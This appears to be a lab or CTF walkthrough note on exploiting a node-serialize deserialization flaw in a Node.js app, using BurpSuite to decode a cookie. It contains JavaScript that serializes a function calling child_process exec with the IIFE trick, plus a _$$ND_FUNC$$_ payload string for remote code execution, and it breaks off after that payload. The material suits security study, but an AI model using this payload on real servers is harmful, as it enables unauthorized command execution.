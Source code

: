 ![[Pasted image 20230731202455.png]]
___
We are going to use [[BurpSuite]] to know what is happening behind that message.
![[Pasted image 20230731202702.png]]
___
It seems that is **URL encoded**, why don't we use *encoder/decoder* tool of *BrupSuite*?
Also, it seems that is **base64 encoded**.
And the *plain text* is a **data structure** of *ajin* user.
![[Pasted image 20230731203108.png]]
___
I suggest we can modify the *username* field and encode recursively.
![[Pasted image 20230731203335.png]]
![[Pasted image 20230731203410.png]]
___
Great!, now let's use the [serialize-script](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) to serialize data.
*serialize.js*, this script just serialize data and doesn't execute it.
```js
var y = {
 rce : function(){
 require('child_process').exec('id', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
___
```shell
node serialize.js
```
![[Pasted image 20230731204145.png]]
___
So, by adding `()` in the *serialize.js* script, we can execute the data serialized.
*serialize-IIFE.js*, this script serializes data executes it with the concept of **IIFE (Inmediately Invoked Function Expression)**.
```js
var y = {
 rce : function(){
 require('child_process').exec('id', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
___
```shell
node serialize-IIFE.js
```
![[Pasted image 20230731204455.png]]
___
Then, how do we make the process inverted? that is to say that the server deserialize the data and it is the one that executes it and not us.
To achieve it, we must use the [unserialize-script](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).
*unserialize-IIFE.js*, this script deserialize from the server and uses **IIFE** to execute the `id` command from it (Note the `()` characters).
```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'id\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
```